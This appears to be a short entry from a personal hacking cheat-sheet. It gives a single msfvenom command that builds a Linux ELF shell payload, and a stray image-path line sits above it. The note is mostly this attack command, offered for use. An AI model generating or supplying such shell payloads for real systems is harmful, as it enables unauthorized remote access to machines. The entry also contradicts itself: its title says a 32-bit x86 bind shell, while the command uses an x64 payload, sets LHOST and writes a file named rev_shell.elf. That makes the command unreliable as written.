 # MSFVENOM Linux Binary (.elf) 32 Bit (x86) Bind Shell
```bash
msfvenom -p linux/x64/shell/bind_tcp LHOST=$LHOST -f elf > rev_shell.elf
```

# References
- [20221003150765](/zet/20221003150765/) MSFVENOM Linux Binary (.elf) 32 Bit (x86)
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:
    #assorted

